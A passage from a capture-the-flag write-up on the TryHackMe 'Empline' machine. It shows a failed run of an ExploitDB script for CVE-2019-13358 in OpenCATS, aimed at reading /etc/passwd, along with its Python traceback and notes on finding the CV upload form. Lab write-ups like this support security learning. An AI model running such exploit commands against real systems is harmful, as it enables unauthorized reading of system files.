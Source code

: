 But... it was not working for me.
{% highlight bash startinline=true %}
 python 50316.py --url job.empline.thm --file /etc/passwd
 
 http://job.empline.thm/careers/index.php
Traceback (most recent call last):
  File "50316.py", line 114, in post
    request = requests.post(self.args.url, params=params, files=files)
  File "/usr/lib/python3/dist-packages/requests/api.py", line 112, in post
    return request('post', url, data=data, json=json, **kwargs)
  File "/usr/lib/python3/dist-packages/requests/api.py", line 58, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/lib/python3/dist-packages/requests/sessions.py", line 506, in request
    prep = self.prepare_request(req)
  File "/usr/lib/python3/dist-packages/requests/sessions.py", line 449, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/lib/python3/dist-packages/requests/models.py", line 308, in prepare
    self.prepare_body(data, files, json)
  File "/usr/lib/python3/dist-packages/requests/models.py", line 496, in prepare_body
    (body, content_type) = self._encode_files(files, data)
  File "/usr/lib/python3/dist-packages/requests/models.py", line 159, in _encode_files
    fdata = fp.read()
AttributeError: 'int' object has no attribute 'read'

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "50316.py", line 140, in <module>
    CVE_2019_13358().run()
  File "50316.py", line 138, in run
    self.post(id)
  File "50316.py", line 118, in post
    raise Exception("Failed to POST to the URL provided", e)
Exception: ('Failed to POST to the URL provided', AttributeError("'int' object has no attribute 'read'",))
{% endhighlight %}

Mixed first link with the second one, code from the first link (same code on ExploitDB) generated DOCX (read source code to see the directory) for the upload, so I went after the second link `doddsecurity` and found missing component, Upload button for the CV.

![Empline](/assets/thm/empline/opencats_upload_cv.png)
